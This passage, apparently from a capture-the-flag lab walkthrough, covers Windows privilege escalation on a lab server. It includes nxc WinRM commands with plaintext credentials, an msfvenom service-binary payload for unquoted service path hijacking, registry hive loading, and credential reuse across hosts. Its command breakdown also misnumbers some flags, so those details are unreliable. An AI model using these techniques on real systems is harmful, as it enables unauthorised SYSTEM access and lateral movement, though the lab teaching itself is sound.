hold `SERVICE_CHANGE_CONFIG`, `SERVICE_START`, or `SERVICE_STOP` on a LocalSystem service. Least-privilege the
DACL (`sc sdset`) and run agents under a constrained service account, not `LocalSystem`.

**Part 1 found (identify):** `FLAG{…}`  ·  **Part 2 found (exploit):** `FLAG{…}`

---

## Phase 6: Service & registry mining

> **The thinking.** We already own the box, so this phase is the thorough sweep that a real assessment does not
> skip, mining services, autoruns, scheduled tasks, and registry hives for the misconfigurations and secrets
> that give persistence. It answers "what else on this host would let us regain SYSTEM or survive a reboot,"
> which is why it comes last, after the foothold and escalation are settled and we can read freely. The
> techniques (unquoted paths, Run keys, task actions, service registry values) double as flag locations
> because both are code or data that survives a reboot. The decision here is completeness over speed:
> with the box owned, we document every persistence and privilege foothold rather than stop at the first one.

**Goal.** Sweep the box for persistence and privilege footholds: unquoted services, autoruns, tasks, registry hives.
**Try.** Filter for unquoted service paths (`Get-CimInstance Win32_Service` or `wmic service get name,pathname`),
then read scheduled-task output and named registry values. Persistence locations double as flag locations.

**Why we do this.** We already own the box, so this is the thorough sweep a real assessment does not skip:
mining services, autoruns, scheduled tasks, and registry hives for the misconfigurations and secrets that give
persistence. It answers "what else on this host would let us regain SYSTEM or survive a reboot," which is why it
comes last, after the foothold and escalation are settled and we can read freely. The techniques (unquoted
paths, Run keys, task actions, service registry values) double as flag locations because both are
code or data that survives a reboot. The decision here is completeness over speed: with the box owned, we
document every persistence and privilege foothold rather than stop at the first one.

The thorough sweep, run freely now that the box is owned:

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X "whoami"
```

**Command breakdown**
- Flags 12-14 are unquoted service paths; Flags 20-23 are a scheduled task and three registry values.
- These techniques double as flag locations because both are "code or data that survives a reboot." With the box owned, document every foothold rather than stop at the first one.

### FLAGs 12-14: unquoted service paths (two-part: Identify Easy / Exploit Hard)

**Goal.** Spot three services with unquoted paths and writable base directories (Part 1), then hijack the
unquoted path to run as SYSTEM and read a SYSTEM-only flag (Part 2). Each service is one two-part flag.

**Why we go after this.** When a service's path has spaces and is not quoted, the SCM tries each prefix plus
`.exe` before the real binary. For `C:\Program Files\Vulnerable Scanner\Scanner Service\scanner.exe` it tries
`C:\Program.exe`, `C:\Program Files\Vulnerable.exe`, then **`C:\Program Files\Vulnerable Scanner\Scanner.exe`**,
and that last directory is writable by `Users`. Drop your binary there and the service (LocalSystem) runs
it. The unquoted path is only half the bug; the writable prefix is what makes it exploitable.

#### Part 1: Identify the unquoted paths (Easy)

**Step 1: enumerate services whose image path is unquoted and contains spaces** (both conditions are what
makes a path hijackable):

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' \
  -X "Get-CimInstance Win32_Service | ? {$_.PathName -notlike '\"*' -and $_.PathName -like '*Program Files*'} | select Name,PathName | fl"
```

**Expected output:**

```
Name     : VulnScanner
PathName : C:\Program Files\Vulnerable Scanner\Scanner Service\scanner.exe
Name     : CommonAppService
PathName : C:\Program Files\Common Application\System Tools\app service.exe
Name     : VendorUpdater
PathName : C:\Program Files (x86)\Vendor Software Suite\Update Service\updater.exe
```

**Step 2: prove the writable half and list the base dir for the note** (PowerUp `Get-UnquotedService` /
WinPEAS automate this):

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X \
  "icacls \"C:\Program Files\Vulnerable Scanner\" & dir /b \"C:\Program Files\Vulnerable Scanner\" & type \"C:\Program Files\Vulnerable Scanner\service_info.txt\""
```

**Expected output:**

```
C:\Program Files\Vulnerable Scanner BUILTIN\Users:(OI)(CI)(M)    <-- Modify: the writable prefix
service_info.txt
Scanner Service
Service VulnScanner : unquoted binPath + user-writable base directory (misconfigured).
identify token (base64): RkxBR3t…
```

Now the same two checks against the other two services. Each is a genuinely different install path, so run its own `icacls` (proving the writable prefix) and read its own note:

**CommonAppService:**

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X \
  "icacls \"C:\Program Files\Common Application\" & type \"C:\Program Files\Common Application\service_info.txt\""
```
```
C:\Program Files\Common Application BUILTIN\Users:(OI)(CI)(M)    <-- Modify: the writable prefix
Service CommonAppService : unquoted binPath + user-writable base directory (misconfigured).
identify token (base64): RkxBR3t…      ->  FLAG{C******4}
```

**VendorUpdater** (note this one lives under `Program Files (x86)`):

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X \
  "icacls \"C:\Program Files (x86)\Vendor Software Suite\" & type \"C:\Program Files (x86)\Vendor Software Suite\service_info.txt\""
```
```
C:\Program Files (x86)\Vendor Software Suite BUILTIN\Users:(OI)(CI)(M)    <-- Modify: the writable prefix
Service VendorUpdater : unquoted binPath + user-writable base directory (misconfigured).
identify token (base64): RkxBR3t…      ->  FLAG{B******7}
```

**Part 1 found (identify ×3):** VulnScanner `FLAG{H******9}`, CommonAppService `FLAG{C******4}`, VendorUpdater `FLAG{B******7}`

#### Part 2: Hijack the unquoted path to SYSTEM (Hard)

Each service's flag file (`scanner_flag.txt`, `commonapp_flag.txt`, `vendor_flag.txt`) sits in its base dir but
is **ACL-locked to SYSTEM + Administrators**, so as `overclock` you get **Access Denied**. Plant a binary at the
unquoted injection point in the writable base dir and let the service read the flag for you:

```bash
# build a service EXE that copies the gated flag out, drop it at the unquoted injection point
msfvenom -p windows/x64/exec \
  CMD='cmd /c type "C:\Program Files\Vulnerable Scanner\scanner_flag.txt" > C:\Public\f13.txt' \
  -f exe-service -o Scanner.exe
# upload to the writable base dir at the hijack path the SCM resolves first:
#   copy Scanner.exe "C:\Program Files\Vulnerable Scanner\Scanner.exe"
#   sc.exe start VulnScanner      (or reboot; start=auto)  -> runs your Scanner.exe as LocalSystem
type C:\Public\f13.txt
```

The other two services are exploited exactly the same way; only the injection path changes (the SCM resolves the first space-split prefix that lands in the writable base dir). Build each payload to copy that service's own `*_flag.txt`, plant it at the hijack path, and `sc.exe start` the service:

| Service | Plant your EXE here (SCM tries it before the real binary) | Then read |
|---|---|---|
| VulnScanner | `C:\Program Files\Vulnerable Scanner\Scanner.exe` | `scanner_flag.txt`  ->  `FLAG{T******5}` |
| CommonAppService | `C:\Program Files\Common Application\System.exe` | `commonapp_flag.txt`  ->  `FLAG{P******5}` |
| VendorUpdater | `C:\Program Files (x86)\Vendor Software Suite\Update.exe` | `vendor_flag.txt`  ->  `FLAG{S******6}` |

`Users` hold `SERVICE_START` on all three (granted so a low-priv student can trigger the hijack with `sc start` instead of waiting for a reboot), and each service runs as `LocalSystem`. So the moment the service starts, your planted EXE executes as SYSTEM and copies out the flag file that returned `Access Denied` to `overclock` a moment ago.

**Command breakdown**
- `-f exe-service` builds a service binary the SCM can start cleanly; the `CMD` payload runs as LocalSystem and copies the gated flag out.
- The injection point is the first unquoted prefix that lands in a writable dir: `...\Vulnerable Scanner\Scanner.exe`, `...\Common Application\System.exe`, `...\Vendor Software Suite\Update.exe`. Confirm write access with `icacls`; WinPEAS / PowerUp (`Get-UnquotedService`) automate the hunt.
- Proof it is gated: `type "...\scanner_flag.txt"` as `overclock` returns `Access is denied` until your LocalSystem service reads it.

**The lesson.** Unquoted path plus a writable directory equals SYSTEM, the single most common Windows privilege
escalation. Always confirm (and here, *exercise*) the writable half; quote your service paths and lock down
their directories.

**Flags 12-14 (Part 2 exploit):** VulnScanner `FLAG{T******5}`, CommonAppService `FLAG{P******5}`, VendorUpdater `FLAG{S******6}`

### FLAGs 20-23: scheduled task & registry (Medium / Hard)

**Goal.** Four autostart and registry spots, each a different survive-a-reboot mechanism.
**Try.** Read a scheduled task's output file, an application license key, a per-user Run key, and a service
registry value. Enumerate Run keys (HKCU and HKLM), service ImagePaths, and task actions, then decode each base64.

**Why we go after this.** Persistence is any mechanism that lets code or data survive a reboot, and Windows
offers a handful of standard spots: scheduled tasks (run a command on a trigger), Run keys (launch a program
at every logon), and service registry values. These double as flag locations here for a precise reason,
persistence locations and flag locations overlap because both are "code or data that survives a reboot," so
the same sweep an incident responder runs to hunt an attacker's foothold is the sweep that finds these
tokens. Attackers care about them coming and going: as a place to plant a foothold and, when looting an owned
box, as a place credentials and secrets accumulate (a task set to "run as" a user often stores that user's
password). This box realistically has them because a real server collects scheduled tasks, license keys, and
autoruns over its life. We reason to this as the completeness pass on an owned box: with SYSTEM already in
hand, we document every survive-a-reboot mechanism rather than stop at the first, and the per-user Run key in
particular reminds us that reading `HKCU` over a remote session may return nothing unless we are that user or
load their hive.

**Command:**

These are four *different* persistence mechanisms, so work each on its own terms. The skill is surfacing the location by enumeration, not being handed the path.

**Flag 20: a scheduled task's payload.** A task's whole job is to run a command on a trigger, and that command line often carries the secret. Enumerate the task and read its action:

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X "(Get-ScheduledTask VulnTask).Actions | fl Execute,Arguments"
```
```
Execute   : C:\Windows\System32\cmd.exe
Arguments : /c echo RkxBR3t… > C:\Public\taskflag.txt
```
The base64 sits right in the arguments. Reading `C:\Public\taskflag.txt` directly may return nothing, because the task only writes that file when it actually fires, so recover the token from the *action*, which always holds it. Decode  ->  `FLAG{C******9}`.

**Flag 21: an application license key in the registry.** Third-party apps stash config (and sometimes secrets) under `HKLM\SOFTWARE`. You find `VulnApp` by sweeping the hive, not by being told the path:

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X "reg query HKLM\SOFTWARE\VulnApp"
```
```
HKEY_LOCAL_MACHINE\SOFTWARE\VulnApp
    LicenseKey    REG_SZ    RkxBR3t…
```
Decode the `LicenseKey` value  ->  `FLAG{M******1}`.

**Flag 22: a per-user Run key (the hive-context lesson).** Run keys launch a program at logon. This one is planted in the *Default* user profile, so a straight `HKCU` read over your WinRM session comes back empty, because you are not that user:

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X "reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v UpdaterFlag"
```
```
ERROR: The system was unable to find the specified registry key or value.
```
That empty result is the lesson, not a dead end. Load the hive that actually holds the value and read from there:

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -x \
  "reg load HKU\Def C:\Users\Default\NTUSER.DAT & reg query HKU\Def\Software\Microsoft\Windows\CurrentVersion\Run /v UpdaterFlag & reg unload HKU\Def"
```
```
UpdaterFlag    REG_SZ    cmd /c echo RkxBR3t…
```
Decode  ->  `FLAG{C******6}`. Reading `HKCU` remotely returns *your* hive; the value lived in someone else's, so you `reg load` their `NTUSER.DAT`.

**Flag 23: a value hidden under a service's own registry key.** Services store their config under `HKLM\SYSTEM\CurrentControlSet\Services\<name>`, and a value that does not belong there is a classic hiding spot. Enumerating the `VulnScanner` service key (the same service from the unquoted-path flag) surfaces a stray `Flag` value sitting next to the normal `ImagePath`/`Start`:

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X "reg query HKLM\SYSTEM\CurrentControlSet\Services\VulnScanner /v Flag"
```
```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\VulnScanner
    Flag    REG_SZ    RkxBR3t…
```
Decode  ->  `FLAG{M******2}`. This is the flag rated "service registry analysis": the skill is knowing to look *inside* a service's own key for a value that has no business being there.

**Command breakdown**
- `reg query <key> /v <value>` reads one named value from a key. `/v` picks the specific value name.
- F21's flag is produced by a scheduled task (`VulnTask`) that echoes a base64 string into `C:\Public\taskflag.txt`. `Get-ScheduledTask VulnTask | select -expand Actions` shows the command.
- F23 lives in a per-user hive. Read over WinRM it may be empty because you are not that user; either RDP in as the user and read `HKCU`, or load their `NTUSER.DAT` with `reg load`. `autorunsc.exe` enumerates every autostart at once. Persistence locations double as flag locations because both are "code or data that survives a reboot."

**Flag teaching.** Run keys, service `ImagePath`s, and scheduled-task actions are all persistence hunting-grounds, and each is a single `Get-ItemProperty` or `reg query` away, but Sysinternals `autorunsc.exe` sweeps every autostart at once, which is the fastest way to surface all four of these tokens together.

**Reading the output.** If F23's `HKCU` read comes back empty, that is not a dead end, it is the execution-context lesson: you are not the user whose hive holds the value, so RDP in as them or `reg load` their `NTUSER.DAT`. The other three read straight because they live in machine-wide keys or a public file.

**The lesson.** Autostart locations are the first place both attackers and incident responders look, so enumerate all of them: Run and RunOnce in HKCU and HKLM, scheduled task actions, and service registry values. Per-user hives are bound to a user's context, so knowing whose hive a value lives in is as important as knowing the key path.

**Flags 20-23 found:** `FLAG{C******9}`, `FLAG{M******1}`, `FLAG{C******6}`, `FLAG{M******2}`

---

## Cross-host context

> **The thinking.** This server is the top of the local chain and the convergence point of the wider
> engagement. Get to SYSTEM here and you own the box outright. The crown jewel is not a single file, it is what
> the looted credentials unlock, so we replay creds from the other hosts against this one.

**Goal.** Test what looted creds unlock here. This box is where the whole lab converges.
**Try.** The `localadmin` / `Administrator123` credential from the **Win10 workstation** and `user1` /
`Password123!` from the **OCWA web server** both authenticate here (Pass-the-Hash or straight reuse).

**Why we do this.** This server is the convergence point of the whole engagement, so the final move is to prove
what the credentials looted elsewhere unlock here. Local-admin reuse is dangerous because
organizations image every machine with the same local-admin password, so we replay the exact `localadmin` /
`Administrator123` credential from the Win10 workstation, and the `user1` / `Password123!` credential from the
OCWA web server, straight against this box. Both land, which turns three separately compromised hosts into one
owned environment. This is the entire point of the engagement: the crown jewel was never a single file, it is
what these reused credentials open when tested against every host you can reach.

**Command:**

```bash
nxc smb 192.168.148.101 -u localadmin -p Administrator123 --local-auth
nxc smb 192.168.148.101 -u user1 -p Password123! --local-auth
```

**Expected output:**

```
SMB  192.168.148.101  445  WIN-OJJQFSDINDP  [+] WIN-OJJQFSDINDP\localadmin:Administrator123 (Pwn3d!)
SMB  192.168.148.101  445  WIN-OJJQFSDINDP  [+] WIN-OJJQFSDINDP\user1:Password123!
```

This server is the top of the local chain. Get to SYSTEM here and you own the box outright. It is also the
convergence point of the wider engagement: creds you loot on the Win10 workstation and the OCWA web server both
land here. The lesson that ties the whole lab together: one weak host leaks the credential that owns the next.
Always test every credential you find against every host you can see.

---



## Flag checklist

*(Censored. Confirm each with your own decode.)*

> **Two-part privesc flags.** Flags **3, 4, 10, 12-14, 15, 16** are each worth **two tokens**: a Part-1
> *identify* token (readable as low-priv `overclock`) and a Part-2 *exploit* token written to a
> SYSTEM+Administrators-only file (or living only in LSASS memory). The single value shown below is
> illustrative, tokens are generated per build; the authoritative per-token answer key is the build's flag
> report.

| # | Flag | # | Flag | # | Flag |
|---|------|---|------|---|------|
| 1 | FLAG{M******5} | 9 | FLAG{S******3} | 17 | FLAG{T******6} |
| 2 | FLAG{P******5} | 10 | FLAG{H******8} | 18 | FLAG{S******8} |
| 3 | FLAG{M******6} | 11 | FLAG{F******9} | 19 | FLAG{F******2} |
| 4 | FLAG{P******4} | 12 | FLAG{T******5} | 20 | FLAG{C******9} |
| 5 | FLAG{G******5} | 13 | FLAG{P******5} | 21 | FLAG{M******1} |
| 6 | FLAG{S******0} | 14 | FLAG{S******6} | 22 | FLAG{C******6} |
| 7 | FLAG{E******7} | 15 | FLAG{K******2} | 23 | FLAG{M******2} |
| 8 | FLAG{J******7} | 16 | FLAG{M******7} | 24 | FLAG{A******4} |

> **Decoys.** `FLAG{DECOY_*}` strings are planted in obvious grep spots (`C:\Public\ops_notes.txt`, an `OCLab`
> registry value, the `OC_AUDIT_TOKEN` environment variable). The answer key rejects them. No-decode = fake.
